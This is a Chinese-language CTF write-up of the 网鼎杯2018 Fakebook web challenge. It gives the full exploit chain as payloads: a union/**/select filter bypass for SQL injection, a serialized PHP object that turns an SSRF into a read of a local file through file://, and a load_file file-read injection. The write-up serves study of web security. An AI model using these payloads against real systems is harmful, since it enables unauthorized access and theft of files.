

# 知识点
sql空格过滤<br />load_file<br />反序列化<br />[网鼎杯2018-Fakebook - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1682583)
# 思路
进入页面，可以在join.php注册<br />进入/view.php<br />/view.php?no=1可以进行sql注入<br />将"union select"过滤,中间的空格以及相关的%0a等也被过滤，通过union/**/select来绕过<br />爆出users表中的data，是一串序列化字符，存在反序列化点<br />扫目录，发现了robots.txt和flag.php
```php
User-agent: *
Disallow: /user.php.bak
```
获得user.php源码
```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
存在ssrf点
```php
<?php


class UserInfo
{
    public $name = "aa";
    public $age = 0;
    public $blog = "file:///var/www/html/flag.php";

}
$a = new UserInfo();
echo serialize($a);
```
```php
no=-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:2:"aa";s:3:"age";i:0;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'%23
```
获取flag<br />
### 非预期解
通过load_file来获取flag
```php
no=-1 union/**/select 1,load_file("/var/www/html/flag.php"),3,4%23
```
